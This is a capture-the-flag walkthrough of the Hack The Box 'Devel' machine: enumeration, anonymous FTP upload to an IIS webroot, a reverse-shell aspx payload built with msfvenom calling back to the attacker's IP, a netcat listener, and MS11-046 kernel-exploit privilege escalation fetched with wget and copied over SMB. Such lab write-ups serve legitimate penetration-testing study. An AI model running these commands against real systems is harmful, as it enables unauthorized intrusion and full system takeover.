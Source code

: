 ```yaml
---
title: "Hack The Box - Devel"
date: 2020-01-09
tags: [oscp, htb, windows]
collection: oscp-prep
published: true
layout: single
toc: true
toc_label: Table of Contents
headline: "FTP abuse to kernel exploit"
picture: /assets/htb-devel/machine_info.png
---
```


![](/assets/htb-devel/machine_info.png)

## Enumeration

Our Nmap scans show only 2 ports open, running FTP and HTTP. Both are backed by IIS 7.5, telling us that the system is running Windows 7 or Server 2008 R2.

```
Nmap scan report for 10.10.10.5
Host is up, received user-set (0.059s latency).
Scanned at 2020-01-09 13:18:34 EST for 202s
Not shown: 65533 filtered ports
Reason: 65533 no-responses
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
```

Gobuster and Nikto show nothing beyond an `/aspnet_client` subsirectory on the HTTP side.

---

## Initial Shell

### Probing FTP

Since web enumeration found nothing of interest, we have to assume the way forward is going to involve FTP in some way. Let's probe FTP and see what we can do.

Initial enumeration of FTP should always include an attempt to login as an `anonymous` user. In this case, we can in fact login as `anonymous`.

![](/assets/htb-devel/ftp_anon_login.png)

Now that we're in the FTP server, where are we? A simple `ls` shows that we're in the root of the web site, as we can see the default IIS page, and the `/aspnet_client` subdirectory.

![](/assets/htb-devel/ftp_webroot.png)

Now we need to test if we can place a test file in the directory as `anonymous`. Since this is the webroot, if we're able to place a file here and pull it up via the web browser, that means we have a way to possibly get RCE.

![](/assets/htb-devel/ftp_put_test.png)

![](/assets/htb-devel/web_test_file.png)

So we can place a file, and retreive it via the web. Since this is IIS, with the `/aspnet_client` present, it means we can probably place a malicious `aspx` page, and get a shell back.

### Create payload and upload via FTP

We can use `msfvenom` to create a payload, and output it to the `aspx` format. The command `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=7500 -f aspx -o shell.aspx`

![](/assets/htb-devel/msfvenom_create.png)

Now we just need to upload it to the FTP server.

![](/assets/htb-devel/ftp_put_shell.png)

### Open listener and trigger exploit

Before we can trigger the exploit, we need to open a listener to catch the shell first. We can do this with `nc -lvnp 7500`.

Once that's setup, all we need to do it navigate a web browser to `http://10.10.10.5/shell.aspx`. We should now have a shell waiting for us in the listener.

![](/assets/htb-devel/initial_shell.png)

---

## Privlege Escalation

### Getting our bearings

Now that we're on the system, we can look around and see what we're dealing with.

The `systeminfo` command shows that we were correct with our guess of Windows 7 as the OS. Also, note that there are no installed Hotfixes on the machine either.

```
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          13/1/2020, 4:16:05 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 725 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.528 MB
Virtual Memory: In Use:    519 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
```

A `whoami` command shows that we're currently running as an IIS web service.

![](/assets/htb-devel/whoami.png)

A `net user` command shows that the accounts on the system are `Administrator` and `babis`. The `user.txt` flag is probably on the desktop for `babis`, with the `root.txt` flag on the desktop for `Administrator`.

![](/assets/htb-devel/net_user.png)

We can also see that we can't navigate to the `babis` user directory.

![](/assets/htb-devel/babis_denied.png)

### MS11-046

Since there are no hotfixes installed, we have our choice of kernal exploits for local exploit. MOst exploits found online will trigger, but they are not remote shell friendly. This means that even if I run them, they will open a new instance of `cmd.exe` on the PC, not just escalate my current privleges in the current shell.

[This repository for a MS11-046 exploit](https://github.com/abatchy17/WindowsExploits/tree/master/MS11-046) tells us in the source code that it is in fact *remote-shell friendly*.

```c
// spawn shell (with elevated privileges)
    printf("         [*] Spawning shell\n");
    // spawn SYSTEM shell within the current shell (remote shell friendly)
    system ("c:\\windows\\system32\\cmd.exe /K cd c:\\windows\\system32");
```

There is a pre-compiled EXE available, which makes this as simple as copying to it the target with an SMB share, and running it.

```shell
wget https://github.com/abatchy17/WindowsExploits/raw/master/MS11-046/MS11-046.exe

# Start an SMB server via Impacket's smbserver.py in a new terminal
smbserver.py kali .

# From the remote shell
copy \\10.10.14.16\kali\MS11-046.exe
```

Now all that's left is to run the exploit locally on the target.

![](/assets/htb-devel/privesc_whoami.png)

### Loot!

Once we're `SYSTEM`, grabbing flags is trivial.

![](/assets/htb-devel/user_proof.png)

![](/assets/htb-devel/root_proof.png)





